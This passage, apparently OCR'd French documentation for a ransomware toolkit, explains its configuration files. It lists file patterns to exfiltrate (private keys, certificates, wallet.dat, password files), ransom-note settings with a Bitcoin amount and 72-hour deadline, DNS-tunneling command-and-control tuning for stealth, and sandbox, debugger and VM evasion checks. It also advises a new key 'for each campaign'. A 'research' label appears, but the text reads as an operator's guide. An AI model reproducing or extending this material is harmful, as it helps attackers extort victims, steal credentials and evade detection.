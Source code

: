 ```json
    "max_file_size": 10485760,           // Taille max par fichier
    "compression": true,                  // Compression activée
    "targets": [                         // Types de fichiers à exfiltrer
      "*.key", "*.p12", "*.pfx",
      "wallet.dat", "*password*"
    ]
  },
  
  "ransom_note": {
    "filename": "RECOVERY_INSTRUCTIONS.txt",
    "contact_email": "research@university.edu",
    "payment_amount": "0.05",             // Bitcoin (pour recherche)
    "deadline_hours": 72
  }
}
```

### Détails C&C

#### Domaines de Commande
- **`c2_domain`** : Domaine principal pour DNS tunneling
- **`backup_domains`** : Domaines de secours (important pour la résilience)

#### Communication DNS Tunneling
- **`method`** : Toujours `"dns_tunneling"` (le plus furtif)
- **`chunk_size`** : 
  - 30 bytes : Optimal pour DNS (limite 63 bytes/label)
  - Plus petit = plus furtif, plus grand = plus rapide
- **`poll_interval`** : 
  - 300s (5min) : Équilibre détection/réactivité
  - 60s : Plus réactif, plus détectable
  - 1800s (30min) : Plus furtif, moins réactif

#### Sécurité Communication
- **`encryption_key`** : Clé 64 caractères hexadécimaux
  - Générer : `openssl rand -hex 32`
  - **CRITIQUE** : Changer pour chaque campagne

#### Exfiltration de Données
- **`enabled`** : Active l'exfiltration automatique
- **`max_file_size`** : Limite par fichier (10MB = équilibré)
- **`targets`** : Patterns de fichiers sensibles

---

## 3. Configuration Payload (`payload_config.json`)

### Structure Complète
```json
{
  "execution": {
    "delay_start": 30,                    // Délai avant exécution (s)
    "check_sandbox": true,                // Vérification sandbox
    "check_debugger": true,               // Vérification debugger
    "check_vm": true,                     // Vérification VM
    "minimum_ram_gb": 4,                  // RAM minimum (GB)
    "minimum_disk_gb": 100,               // Disque minimum (GB)
    "minimum_cpu_cores": 2                // CPU cores minimum
  },
  
  "encryption": {
    "threads": 8,                         // Threads de chiffrement
```